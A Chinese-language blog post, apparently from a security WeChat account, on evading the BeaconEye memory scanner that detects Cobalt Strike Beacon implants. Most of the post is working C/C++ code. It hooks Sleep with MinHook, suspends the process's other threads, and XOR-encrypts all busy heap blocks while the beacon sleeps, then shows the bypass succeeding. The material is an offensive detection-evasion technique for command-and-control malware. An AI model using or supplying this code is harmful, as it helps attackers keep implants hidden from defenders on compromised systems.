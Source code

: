 # 9.Bypass BeaconEye - Beacon 堆混淆

在之前的文章《[Bypass BeaconEye](http://mp.weixin.qq.com/s?\_\_biz=MzkxMTMxMjI2OQ==\&mid=2247484015\&idx=1\&sn=8e488c04a6e62fbe2db60dd96c3d7743\&chksm=c11f568df668df9b423309c0c466c46cf684b87cc56606e7f43ca3edbb7efd6029e198fff6d3\&scene=21#wechat\_redirect)》中提过了两个 Bypass BeaconEye 的方法，都是通过打乱 C2Profile 结构来做的，还有另外一种方式就是在 Sleep 的时候加密堆内存，在 CS4.5 中也对 Sleep\_Mask 进行了更新

## 0x01 CS4.5 Sleep\_Mask

根据 **官网**\[1] 的解释可以猜出一二

![图片](https://img-blog.csdnimg.cn/img\_convert/54b9120f87a906a060b4d5230cd3f2c7.png)

增加了 HEAP\_PECORDS 结构体，根据名字猜测是用来记录堆内存的，所以大概率是记录了某一部分带特征的堆内存地址，然后在 Sleep 的时候将其进行混淆，用来躲过 BeaconEye 的检测，当然也有可能是将所有申请的堆内存都混淆

## 0x02 HeapEncrypt

按照对 Sleep 的分析《[Beacon sleep\_mask 分析](http://mp.weixin.qq.com/s?\_\_biz=MzkxMTMxMjI2OQ==\&mid=2247484016\&idx=1\&sn=c788a9a63f3db2f2e7a11f3c82534281\&chksm=c11f5692f668df84677a4fe2bff5ea3104f9e349533d0e70815c246edf89c53cd27922cdef43\&scene=21#wechat\_redirect)》可以得知它是在加密和解密函数中间的，但是它只处理了当前 PE 结构，为了能够增加对堆的混淆，可以采用直接 HOOK Sleep 的方式，这样就可以完美的实现这个需求了

至于如何 HOOK 就看大家的偏好了，可以使用 IAT HOOK，在加载 Beacon 的时候直接将 Sleep 的函数替换掉，如果是在同一个进程中，也可以 HOOK 当前的 Sleep，因为在同一个进程空间中，使用的是同一份 Kernel32，这样在调用 Sleep 的时候就会走到我们所实现的 Sleep 当中

这里使用 MinHook 库来完成整个 HOOK 操作

```
if (MH_Initialize() != MH_OK) return 1;
if (MH_CreateHook(&Sleep, &DetourSleep, reinterpret_cast<LPVOID*>(&fpSleep)) != MH_OK) return 1;
if (MH_EnableHook(&Sleep) != MH_OK) return 1;
```

对于 Sleep 函数来说也是很简单了，直接模仿 Beacon 的操作来完成即可

```
VOID WINAPI DetourSleep(DWORD dwMilliseconds) {
 EncryptHeap();
 fpSleep(dwMilliseconds);
 EncryptHeap();
}
```

而对于 EncryptHeap 来说，就是要找到所有的堆，然后将其混淆即可

```
VOID EncryptHeap() {
 PROCESS_HEAP_ENTRY heapEntry = { 0 };
 HANDLE hHeap = GetProcessHeap();
 while (HeapWalk(hHeap, &heapEntry))
 {
  if (heapEntry.wFlags & PROCESS_HEAP_ENTRY_BUSY)
  {
   Xor((char*)heapEntry.lpData, heapEntry.cbData);
  }
 }
}
```

然后运行函数，结果却直接异常了

![图片](https://img-blog.csdnimg.cn/img\_convert/3cf74e19224509dcacdd48d4d593839d.png)

猜测可能是有其他的线程还在跑，使用了堆空间，所以并不能直接混淆所有堆内存，这可能也是 CS4.5 选择增加堆记录的原因之一

之后在 **文章**\*\*\[2]\*\*中看到了一句话，才解开了这个疑惑

> An important note! Even if you think your program is single threaded, Windows appears to provide threads in the background that do garbage collection and other types of functions for utilities like RPC and WININET, if you don't suspend those threads they will crash your process as they try to reference encrypted allocations.

这也就证实了之前的猜想，在 Sleep 的时候还会有其他的线程在运行，所以得选择性的进行混淆，或者使用文章中所提到的方案：将所有的线程全部挂起

直接使用这篇文章所提供的 **示例**\*\*\[3]\*\*来做

所以我们的 Sleep 应该变成

```
VOID WINAPI DetourSleep(DWORD dwMilliseconds) {
    DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
    EncryptHeap();
    fpSleep(dwMilliseconds);
    EncryptHeap();
    DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}
```

对于挂起和恢复的函数，项目中都直接提供了

```
void DoSuspendThreads(DWORD targetProcessId, DWORD targetThreadId)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 te;
        te.dwSize = sizeof(te);
        if (Thread32First(h, &te))
        {
            do
            {
                if (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))
                {
                    // Suspend all threads EXCEPT the one we want to keep running
                    if (te.th32ThreadID != targetThreadId && te.th32OwnerProcessID == targetProcessId)
                    {
                        HANDLE thread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
                        if (thread != NULL)
                        {
                            SuspendThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                te.dwSize = sizeof(te);
            } while (Thread32Next(h, &te));
        }
        CloseHandle(h);
    }
}

void DoResumeThreads(DWORD targetProcessId, DWORD targetThreadId)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 te;
        te.dwSize = sizeof(te);
        if (Thread32First(h, &te))
        {
            do
            {
                if (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))
                {
                    // Suspend all threads EXCEPT the one we want to keep running
                    if (te.th32ThreadID != targetThreadId && te.th32OwnerProcessID == targetProcessId)
                    {
                        HANDLE thread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
                        if (thread != NULL)
                        {
                            ResumeThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                te.dwSize = sizeof(te);
            } while (Thread32Next(h, &te));
        }
        CloseHandle(h);
    }
}
```

这样也就完成了整个功能的书写

## 0x03 效果

最后再来验证一下 Bypass 的效果

![图片](https://img-blog.csdnimg.cn/img\_convert/6c21211a2dc3aa4c927b6f150c4b9462.png)

## 0x04 参考文章

\[1] https://www.cobaltstrike.com/blog/sleep-mask-update-in-cobalt-strike-4-5/

\[2] https://www.arashparsa.com/hook-heaps-and-live-free/

\[3] https://github.com/waldo-irc/LockdExeDemo
